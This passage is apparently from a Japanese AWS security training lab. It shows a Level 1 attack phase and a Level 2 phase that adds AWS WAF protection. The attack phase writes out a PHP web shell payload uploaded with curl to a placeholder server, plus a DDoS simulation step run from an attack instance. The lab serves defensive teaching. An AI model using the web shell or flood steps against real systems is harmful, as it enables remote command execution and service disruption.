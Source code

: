 ##### ファイルアップロード攻撃
```bash
# 悪意のあるファイルのアップロード
echo '<?php system($_GET["cmd"]); ?>' > malicious.php
curl -X POST "http://<alb-dns-name>/upload" \
  -F "file=@malicious.php"

# 期待される結果: ファイルアップロード成功
```

#### 3. DDoS攻撃シミュレーション
```bash
# 攻撃インスタンスにSSH接続
ssh -i your-key.pem ec2-user@<attack-instance-ip>

# 基本的なDDoS攻撃
./ddos_simulation.sh http://<alb-dns-name> 50 30

# 期待される結果: レスポンス時間の大幅な増加またはタイムアウト
```

### 学習ポイント
- 脆弱性がどのように悪用されるか
- 攻撃がアプリケーションに与える影響
- 監視なしでは攻撃を検知できないこと

### 次のステップ
レベル1での攻撃成功を確認したら、レベル2に進んでWAFの効果を体験しましょう。

---

## レベル2: AWS WAF基本保護

### 目的
- AWS WAFの基本的な保護機能を理解する
- マネージドルールの効果を確認する
- WAFログの分析方法を学ぶ

### アップグレード手順
```bash
# terraform.tfvarsを編集
sed -i 's/security_level = 1/security_level = 2/' terraform.tfvars

# 変更を適用
terraform apply
```

### 新機能の確認

#### 1. WAF設定の確認
```bash
# WAF Web ACLの確認
aws wafv2 list-web-acls --scope REGIONAL

# ルールの詳細確認
aws wafv2 get-web-acl --scope REGIONAL --id <web-acl-id>
```
